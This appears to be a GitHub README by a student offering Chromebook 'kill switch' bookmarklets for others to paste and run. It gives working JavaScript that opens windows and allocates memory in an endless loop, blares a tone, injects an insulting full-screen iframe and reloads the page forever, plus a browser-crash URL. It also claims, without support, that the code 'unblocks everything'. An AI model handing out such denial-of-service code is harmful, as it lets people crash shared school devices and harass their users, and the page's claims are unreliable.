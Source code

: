# KILL-SWICH-CHROMEBOOK 
ok... i was bored at school so i decided to make a kill switch for chrome book it will unblock everything and this will destroy your Chromebook 
this is the first this will make many tabs untill it chrashes your computer/pc.etc... this will work for book marklets too ENJOYY : ) 
FUN WITH SHREK 
-------------------------------------------------
javascript:while(true) {  var a=Math.floor(10000*Math.random()+1),  b=window.open('_blank','Lag'+a,`height=${screen.height},width=${screen.width}`);  au=new AudioContext(); v=au.createOscillator(); u=au.createGain(); v.connect(u); v.frequency.value=130; v.type="square"; u.connect(au.destination); u.gain.value=100*0.01; v.start(au.currentTime); v.stop(au.currentTime+300*0.001);  b.document.body.innerHTML='<script>[...Array(2**32-1)]</script>';}
just copyy and paste it 
---------------------------------------------------------------------
{2}
this will.... welll... lets just say no more computer! HAHAHAHHALOLOLOLOLLLOLL
------------------------------------------------------------------------------------
javascript:function gcloak() { var link = document.querySelector("link[rel*='icon']") || document.createElement('link');link.type = 'image/x-icon';link.rel = 'shortcut icon';link.href = 'https://i.ytimg.com/vi/cjZcW3b8LyM/maxresdefault.jpg';document.title = 'Get fucked loser!';console.log(document.title);document.getElementsByTagName('head')[0].appendChild(link) };gcloak();setInterval(gcloak, 1000);((function()%7Bvar a,b,c;c="https://www.icegif.com/wp-content/uploads/icegif-5543.gif",b=document.createElement("iframe"),b.setAttribute("src",c),b.setAttribute("id","rusic-modal"),b.setAttribute("style","position: fixed; z-index: 999999; width: 1500px; height: 750px; right: 10px; top: 10px; border: 5px solid #FFFFFF; overflow: hidden; background-color: #fff;"),a=document.getElementsByTagName("body")%5B0%5D,a.appendChild(b)%7D)).call(this); (function (){ alert('No more computer loser'); })(); setTimeout(function(){ while(1)location.reload(1)}, 1000);
-------------------------------------------------------------------------------------------------------------------------
next is just an easy and harmless little trick just copy and paste this in your search bar!
chrome://inducebrowsercrashforrealz
--------------------------------------------------------------------------------------------------------------------------------

